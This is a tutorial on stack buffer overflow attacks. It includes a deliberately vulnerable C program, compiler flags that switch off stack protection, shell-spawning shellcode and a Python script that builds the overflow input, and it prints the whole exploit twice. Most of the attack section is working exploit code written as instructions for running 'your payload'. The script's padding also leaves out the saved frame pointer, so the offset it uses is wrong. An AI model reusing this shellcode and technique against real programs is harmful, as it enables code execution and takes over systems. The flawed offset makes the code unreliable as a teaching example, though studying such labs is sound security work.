 # Summary
A buffer overflow occurs when more data is written to a buffer than it can hold, causing adjacent memory locations to be overwritten. This can lead to unpredictable behavior, including crashes, data corruption, and security vulnerabilities. By exploiting a buffer overflow, an attacker can manipulate the execution flow of a program, potentially allowing arbitrary code execution.

Here's an overview of how you could perform a buffer overflow attack to execute your payload:

1. **Identify a Vulnerable Buffer**: Locate a buffer within the target program that does not properly validate the amount of data written to it.
2. **Craft the Payload**: Create a payload that includes the malicious code you want to execute and padding to overflow the buffer.
3. **Determine the Return Address**: Identify the return address or instruction pointer (IP) that you want to overwrite with the address of your payload.
4. **Exploit the Overflow**: Input the payload into the vulnerable buffer, causing the return address to be overwritten and redirecting the execution flow to your payload.
5. **Execute the Payload**: Once the return address is overwritten and the execution flow is redirected, your payload will be executed.

---
# Execution
To execute a buffer overflow attack, follow these steps:

1. **Compile the Vulnerable Program**: You need a program that has a buffer overflow vulnerability. You can use a simple C program for this purpose.
2. **Craft the Malicious Input**: Create an input that will overflow the buffer and overwrite the return address with the address of your payload.
3. **Run the Program with Malicious Input**: Execute the vulnerable program with the crafted input to exploit the buffer overflow.

## Step 1: Compile the Vulnerable Program
Here is an example of a vulnerable C program:

```
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[64];
    strcpy(buffer, input);
    printf("Input: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc != 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vulnerable_function(argv[1]);
    return 0;
}
```

Compile the program using GCC:

```
gcc -o vulnerable_program vulnerable_program.c -fno-stack-protector -z execstack -m32
```

The flags `-fno-stack-protector` and `-z execstack` disable stack protection and make the stack executable, respectively, which are necessary for this example. The `-m32` flag compiles the program for a 32-bit architecture.

## Step 2: Craft the Malicious Input
To craft the malicious input, follow these steps:

1. **Create the Payload**: Write a shellcode that you want to execute. For simplicity, we will use a simple shellcode that spawns a shell.

```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```

2. **Determine the Return Address**: Identify the return address that you want to overwrite. You can use a debugger like GDB to find the address.

3. **Craft the Input**: Create an input that includes padding, the return address, and the shellcode. Here is an example of how to craft the input in Python:

```
import struct

# Shellcode to spawn a shell
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# Address to overwrite the return address with (example address)
return_address = struct.pack("<I", 0xffffd470)

# Padding to fill the buffer (64 bytes) and overwrite the return address (4 bytes)
padding = b"A" * 64 + return_address

# Malicious input
malicious_input = padding + shellcode

# Save to file
with open("malicious_input", "wb") as f:
    f.write(malicious_input)
```

## Step 3: Run the Program with Malicious Input
Run the vulnerable program with the crafted input:

```
./vulnerable_program $(cat malicious_input)
```

This should exploit the buffer overflow vulnerability and execute the shellcode, spawning a shell.

---
# Example Code
Here is a complete example, including the vulnerable C program and the Python script to craft the malicious input:

## Vulnerable C Program

```
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[64];
    strcpy(buffer, input);
    printf("Input: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc != 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vulnerable_function(argv[1]);
    return 0;
}
```

## Python Script to Craft Malicious Input

```
import struct

# Shellcode to spawn a shell
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# Address to overwrite the return address with (example address)
return_address = struct.pack("<I", 0xffffd470)

# Padding to fill the buffer (64 bytes) and overwrite the return address (4 bytes)
padding = b"A" * 64 + return_address

# Malicious input
malicious_input = padding + shellcode

# Save to file
with open("malicious_input", "wb") as f:
    f.write(malicious_input)
```

## Compilation and Execution

1. **Compile the Vulnerable Program**:

```
gcc -o vulnerable_program vulnerable_program.c -fno-stack-protector -z execstack -m32
```

2. **Run the Vulnerable Program with Malicious Input**:

```
./vulnerable_program $(cat malicious_input)
```

This will exploit the buffer overflow vulnerability and execute the shellcode, spawning a shell.

**Note**: Exploiting buffer overflow vulnerabilities involves manipulating memory and executing arbitrary code, which can be dangerous and should only be done in controlled environments for educational or testing purposes